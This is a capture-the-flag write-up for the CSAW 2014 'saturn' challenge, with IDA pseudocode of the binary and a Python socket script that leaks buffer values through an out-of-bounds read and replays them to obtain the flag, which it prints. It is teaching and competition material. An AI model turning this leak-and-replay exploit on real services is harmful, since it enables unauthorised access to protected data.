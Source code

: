 ```yaml
---
title: CSAW CTF 2014 -- Exploitation 400 saturn
tags:
  - CTF
  - CSAW
  - Python
  - Pwnable
categories:
  - write-ups
date: 2014-09-25 09:35:00
---
```

First the challenge gave us a binary file (ELF for Intel-386). But we can't execute it, cause we don't have the required shared library **"libchallengeresponse.so"**. So we will have to launch IDA Pro to see what's going on within the program.
<!-- more -->

After analyzing the program ( praise the powerful F5 key! ) , I collected the following information:

# Main function

``` c main_function_psuedo_code
int main()
{
  puts("CSAW ChallengeResponseAuthenticationProtocol Flag Storage");
  
  for ( i = 0; i <= 0; ++i )
  {
    v0 = read_one_byte();
    v3 = v0;
    v1 = v0 & 0xF0;
    switch ( v1 )
    {
      case 160: //0xA0
        functionA(v3);
        i -= 2;
        break;
      case 224: //0xE0
        functionB(v3);
        i -= 2;
        break;
      case 128: //0x80
        functionC();
        break;
    }
  }
  return 0;
}
```

As we can see, the main function will read a byte from the user input, and do the `&` operation. `v1` will hold the result, and a `switch-case` condition will decide which function to run next, base on `v1`'s value. 

So basically, we can summarize that the main function will **only accept 3 kinds of input**: `0xA0 ~ 0xAF`, `0xE0 ~ 0xEF` and `0x80 ~ 0x8F`. Now let's take a good look at those functions.

# functionA

``` c functionA_psuedo_code
functionA (char a1)
{
	int v2; 
	v2 = *((int *)bufferA + (a1 & 0xF));

	print_four_char_which_store_in_v2();
}
```

In `functionA`, we found a `bufferA`, which start from a specific address. `functionA` will take the original input (a byte value) as the parameter, extract its last 4 bit, take it as the offset from `bufferA` and calculate the position's address. Then, `v2` will store a 4 bytes value, start from the new address in `bufferA`. At last the function will print out 4 char (= 4 byte) which was stored in `v2`.

Note that if the offset is `0x1`, the new address will start from `bufferA + 4`, if the offset is `0x2`, the new address will start from `bufferA + 8`...and so on (basic knowledge of pointer).

# functionB

``` c functionB_psuedo_code
functionB (char a1)
{
	offser = a1 & 0xF
  
	v4 = *((int *)bufferB + offset);
	read_four_byte_from_input(v5);
  
	if ( v5 != v4 )
  		exit(0);
  
	bufferC[offset] = 1;
}
```
In `functionB`, we found `bufferB` and `bufferC` , both start from a specific address. Like `functionA`, `functionB` also take the original input (a byte value) as the parameter, extract its last 4 bit and take it as a `offset`. But there's a slight difference. In `functionB`, `v4` will store a 4 bytes value, start from the new position in `bufferB`, while another variable `v5` also read a 4 bytes value from the user input and hold its value. Then, the function will compare these two value, if they are the same, it will store value `1` in bufferC, the position is also base on the `offset`'s value.

So, if the user input is `0xE4`, `offset` will store the value `4`, `v4` will store the value `bufferB + 16` ~ `bufferB + 20`, `v5` will read another 4 bytes from user input. If `v4 == v5`, then `bufferC[4]` will store the value `1`

# functionC

``` c functionC_psuedo_code
functionC()
{
	v6 = 1;
	
	for( i = 0 ; i <= 7 ; i++ )
 	{
 		v6 *= bufferC[i]
	}
  
	if (v6 == 0)
  		exit(0);	
	else
  		print_flag()
}
```
`functionC` is quite simple. It just calculate the factorial of all the values stored in `bufferC`. If the result isn't `0`, it will print out the flag, or else it will terminate the program. 

So, to sum up all the functions mentioned previously and how are we going to exploit:

1. use `functionA` to get all the values stored in `bufferB` (use IDA pro to check the offset between `bufferA` and `bufferB`, the offset is `32` (`0x20`) )
2. use `functionB` to overwrite the value in `bufferC`, in order to pass the checking function `functionC`
3. use `functionC` to get the flag

But here is the tricky part: **the values stored in** `bufferB` **are not fixed**. 
So, I finally decided to write a python script to solve the challenge. 

```python saturn.py
from socket import *
from struct import *
 
sock = socket(AF_INET, SOCK_STREAM) #create socket (IP, TCP)
sock.connect(("54.85.89.65" , 8888))

print sock.recv(1024) #recv the title

"""
arr: inputs for getting bufferB's value
arr2: inputs for modifying bufferC's value
int_send: for storing the content of bufferB
"""

arr = ['\xA8', '\xA9','\xAA','\xAB','\xAC','\xAD','\xAE','\xAF']
arr2 = ['\xE0', '\xE1','\xE2','\xE3','\xE4','\xE5','\xE6','\xE7']
int_send = []

for c in arr:
	sock.send(c)
	data = sock.recv(4) #recv 4 bytes
	d = unpack("<I", data)[0] #unpack as an unsigned integer, little-endian format 
	int_send.append(d) # store the bufferB's value

send_cnt = 0

for i in int_send:
	sock.send(arr2[send_cnt]);
	sock.send(pack("<I",(i & 0xFFFFFFFF))) # force format to 32bit
	send_cnt += 1

sock.send('\x80') #get flag
print sock.recv(1024) #print flag
sock.close()  

```

the flag: `flag{greetings_to_pure_digital}`
